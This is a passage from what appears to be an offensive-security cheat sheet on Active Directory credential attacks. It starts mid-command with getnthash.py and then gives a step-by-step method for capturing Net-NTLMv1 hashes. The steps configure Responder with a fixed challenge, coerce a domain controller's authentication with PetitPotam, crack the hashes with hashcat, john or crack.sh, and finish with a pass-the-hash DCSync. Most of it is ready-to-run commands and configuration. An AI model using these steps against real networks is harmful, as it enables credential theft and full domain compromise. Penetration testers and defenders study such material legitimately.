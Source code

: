     # use the session key to recover the NT hash
    $ export KRB5CCNAME="TGT_CCACHE_FILE" getnthash.py -key 'AS-REP encryption key' 'FQDN_DOMAIN'/'TARGET_SAMNAME'
    ```

### Capturing and cracking Net-NTLMv1/NTLMv1 hashes

> Net-NTLM (NTLMv1) hashes are used for network authentication (they are derived from a challenge/response algorithm and are based on the user's NT hash. 

:information_source: : Coerce a callback using PetitPotam or SpoolSample on an affected machine and downgrade the authentication to **NetNTLMv1 Challenge/Response authentication**. This uses the outdated encryption method DES to protect the NT/LM Hashes.

**Requirements**:
* LmCompatibilityLevel = 0x1: Send LM & NTLM (`reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v lmcompatibilitylevel`)

**Exploitation**:
* Capturing using Responder: Edit the `/etc/responder/Responder.conf` file to include the magical **1122334455667788** challenge
    ```ps1
    HTTPS = On
    DNS = On
    LDAP = On
    ...
    ; Custom challenge.
    ; Use "Random" for generating a random challenge for each requests (Default)
    Challenge = 1122334455667788
    ```
* Fire Responder: `responder -I eth0 --lm`, if `--disable-ess` is set, extended session security will be disabled for NTLMv1 authentication
* Force a callback:
    ```ps1
    PetitPotam.exe Responder-IP DC-IP # Patched around August 2021
    PetitPotam.py -u Username -p Password -d Domain -dc-ip DC-IP Responder-IP DC-IP # Not patched for authenticated users
    ```
* If you got some `NTLMv1 hashes`, you need to format them to submit them on [crack.sh](https://crack.sh/netntlm/)
    ```ps1
    username::hostname:response:response:challenge -> NTHASH:response
    NTHASH:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972
    ```
* Or crack them with Hashcat / John The Ripper
    ```ps1
    john --format=netntlm hash.txt
    hashcat -m 5500 -a 3 hash.txt
    ```
* Now you can DCSync using the Pass-The-Hash with the DC machine account
